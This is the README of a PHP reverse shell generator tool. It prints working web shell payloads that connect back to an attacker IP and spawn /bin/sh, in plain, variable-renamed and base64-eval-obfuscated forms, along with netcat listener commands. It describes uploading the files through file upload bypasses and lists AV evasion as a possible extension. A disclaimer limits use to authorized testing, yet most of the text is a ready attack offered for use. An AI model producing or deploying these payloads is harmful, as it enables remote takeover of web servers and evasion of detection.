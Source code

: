 # PHP Reverse Shell Generator

> **For authorized security testing and educational use only.**  
> Always obtain explicit written permission before deploying reverse shells on any system.

---

## 📌 Overview

`reverse_shell_gen.py` is a lightweight, command-line Python tool designed to **generate customizable PHP reverse shell payloads**, optionally **obfuscate** them, save them with **multiple file extensions**, and **automatically launch a Netcat listener**. It is particularly useful in penetration testing, red team engagements, and Capture-The-Flag (CTF) challenges where PHP-based web shells are needed.

---

## 🛠️ Features

- **Dynamic payload generation** with user-defined attacker IP and port.
- **Multiple output extensions**: `.php`, `.phtml`, `.php3`, `.php4`, `.php5`, `.php7`, `.inc`.
- **Obfuscation options**:
  - `none`: Plain, readable PHP.
  - `basic`: Randomized variable names.
  - `base64`: Encoded payload executed via `eval(base64_decode(...))`.
- **Auto listener**: Launches `nc -nvlp <port>` after payload generation.
- **Modular design**: Easy to extend with new obfuscation or payload types.

---

## 📦 Requirements

- Python 3.6+
- Netcat (`nc`) installed (for `--listen` functionality)
- Standard library only (no external dependencies)

---

## 🚀 Usage

### Basic Syntax
```bash
python3 reverse_shell_gen.py --ip <ATTACKER_IP> [OPTIONS]
```

### Examples

#### 1. Generate a basic PHP reverse shell
```bash
python3 reverse_shell_gen.py --ip 192.168.1.10
```
> Saves `shell.php` with default port `2001`.

#### 2. Custom IP, port, filename, and auto-listener
```bash
python3 reverse_shell_gen.py --ip 10.0.0.5 --port 4444 --output rev --listen
```
> Saves `rev.php` and starts `nc -nvlp 4444`.

#### 3. Generate multiple obfuscated variants
```bash
python3 reverse_shell_gen.py --ip 172.30.97.88 --port 8080 \
  --ext php phtml php5 \
  --obfuscate base64 \
  --output webshell
```
> Creates:
> - `webshell.php`
> - `webshell.phtml`
> - `webshell.php5`  
> All encoded in Base64.

#### 4. Use basic obfuscation (random variable names)
```bash
python3 reverse_shell_gen.py --ip 127.0.0.1 --port 9001 --obfuscate basic
```

---

## ⚙️ Command-Line Arguments

| Argument | Type | Default | Description |
|--------|------|--------|-------------|
| `--ip` | string | **required** | Your attacker machine’s IP address (e.g., `192.168.45.123`) |
| `--port` | integer | `2001` | Listening port for the reverse shell |
| `--output` | string | `shell` | Base filename (extension added automatically) |
| `--ext` | list | `["php"]` | One or more PHP-compatible extensions (choices: `php`, `phtml`, `php3`, `php4`, `php5`, `php7`, `inc`) |
| `--obfuscate` | choice | `none` | Obfuscation method: `none`, `basic`, or `base64` |
| `--listen` | flag | disabled | Automatically start a Netcat listener on the specified port |

> 💡 **Tip**: Combine `--listen` with `--port` to streamline your attack workflow.

---

## 🔐 Obfuscation Methods

### 1. `none` (Default)
Generates clean, readable PHP:
```php
<?php
$ip = '192.168.1.10';
$port = 2001;
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>
```

### 2. `basic`
Uses randomly generated variable names to evade basic signature detection:
```php
<?php
$aBcDeFgH = '192.168.1.10';
$iJkLmNoP = 2001;
$qRsTuVwX = fsockopen($aBcDeFgH, $iJkLmNoP);
$yZabCdeF = proc_open('/bin/sh', array(0 => $qRsTuVwX, 1 => $qRsTuVwX, 2 => $qRsTuVwX), $pipes);
?>
```

### 3. `base64`
Encodes the entire payload in Base64 and executes it via `eval`:
```php
<?php eval(base64_decode('PD9waHAKJGlwID0gJzE5Mi4xNjguMS4xMCc7CiRwb3J0ID0gMjAwMTsKJHNvY2sgPSBmc29ja29wZW4oJGlwLCAkcG9ydCk7CiRwcm9jID0gcHJvY19vcGVuKCcvYmluL3NoJywgYXJyYXkoMCA9PiAkc29jaywgMSA9PiAkc29jaywgMiA9PiAkc29jayksICRwaXBlcyk7Cj8+')); ?>
```

> ⚠️ Note: Base64 obfuscation may still be flagged by modern WAFs or EDRs that decode and inspect payloads.

---

## 🧪 Listener Behavior

When `--listen` is used:
- The script runs: `nc -nvlp <port>`
- If `nc` is not installed, it prints an error and exits gracefully.
- Press `Ctrl+C` to stop the listener.

> 🔍 Ensure your firewall allows inbound connections on the chosen port.

---

## 📁 Output Files

All payloads are saved in the **current working directory**. Example outputs:
- `shell.php`
- `rev.phtml`
- `webshell.php5`

These files can be uploaded to vulnerable web applications (e.g., via file upload bypasses) to gain remote command execution.

---

## ⚠️ Legal & Ethical Notice

This tool is intended **exclusively** for:
- Authorized penetration testing
- Security research
- Educational labs and CTF competitions

**Never use this tool against systems you do not own or lack explicit written permission to test.** Unauthorized access violates laws such as the Computer Fraud and Abuse Act (CFAA) and similar regulations worldwide.

---

## 🧩 Extending the Tool

You can enhance this script by:
- Adding more obfuscation layers (e.g., `chr()`, string reversal, gzip)
- Supporting other payload types (e.g., Python, Bash, PowerShell)
- Integrating with HTTP servers for quick payload delivery
- Adding AV evasion techniques (for red team use within legal boundaries)

---

## 📜 License

This script is provided **as-is** with no warranty. Use responsibly and ethically.

> Developed with ❤️ for the infosec community.
